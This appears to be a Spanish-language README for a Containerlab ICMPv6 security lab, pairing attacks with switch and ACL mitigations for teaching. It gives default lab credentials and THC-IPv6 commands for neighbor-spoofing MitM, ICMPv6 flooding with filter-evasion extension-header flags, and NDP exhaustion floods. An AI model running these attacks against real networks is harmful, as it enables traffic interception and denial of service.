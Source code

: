 # Laboratorio ICMPv6 Security con Containerlab

La topología creada tiene por objetivo poveer un entorno controlado para el análisis de seguridad del protocolo **ICMPv6**.
## Descripción de los nodos

| Nodo |OS  |
|--|--|
| Router |Nokia SRL Linux 24.10  
| Switch |Aruba AOS-CX 10.14
|PC1 y PC3|Kali Linux con THC IPv6 Tool e IPv6Toolkit 
|PC2 y PC4|Alpine Linux
## Acceso a los nodos
* Router Nokia vía SSH. `ssh admin@clab-icmpv6-srlrouter` password: `NokiaSrl1!`
* Switch Aruba vía SSH. `ssh admin@clab-icmpv6-arubaaccess` password: `admin`
* PCx vía bash. `docker exec -it clab-icmpv6-PCx /bin/bash`
## Ejemplos ataques
### MiTM/DoS vía Neighbor Spoofing (atk6-parasite6). 
>*This is an "ARP spoofer" for IPv6, redirecting all local traffic to your own
system (or nirvana if fake-mac does not exist) by answering falsely to
Neighbor Solitication requests.*  From https://www.kali.org/tools/thc-ipv6/

![Alt text](images/topoipv6filter.png)

* Desde el nodo **srvweb** iniciar el servicio ejecutando el comando `nginx`
* Desde **arubaaccess** verificar la tabla de **IP bindings** ejecutando: `show nd-snooping bindings`
* Desde el nodo **PC1** Kali
  * Habilitar enrutamiento: `sysctl -w net.ipv6.conf.eth1.forwarding=1`
  * Lanzar el ataque ejecutando: `atk6-parasite6 eth1`
* Desde **PC3**
  * Realizar consulta http ejecutando `http http://[2001:db8:d1::50]`
* Desde **arubaaccess** verificar la mitigación del ataque ejecutando: `show nd-snooping statistics`
### **DoS mediante ICMPv6 Flooding** 

>***atk6-flood_unreachable:** Flood the target with ICMPv6 unreachable packets.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-flood_unreach6 eth1 fe80::20`
  * Alternativas de evasión a filtrado usando campos de extensión: 
  * Next Header field value 44 (Fragment) `atk6-flood_unreach6 -F eth1 fe80::20`
  * Next Header field value 60 (Destination Options) `atk6-flood_unreach6 -D eth1 fe80::20`
  * Next Header field value 0 (Hop-by-Hop Options) `atk6-flood_unreach6 -H eth1 fe80::20`
* Mitigación: config **ICMPv6 ACL filter**   
>***atk6-ndpexhaust26:** Flood the target /64 network with ICMPv6 TooBig error messages.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-ndpexhaust26 -Tr eth1 2001:db8:70::`
  * Opciones: 
  * -T send ICMPv6 Time-to-live-exeeded
  * -r randomize the source from your /64 prefix
* Mitigación: config **ICMPv6 ACL filter / port access secure client limit**    
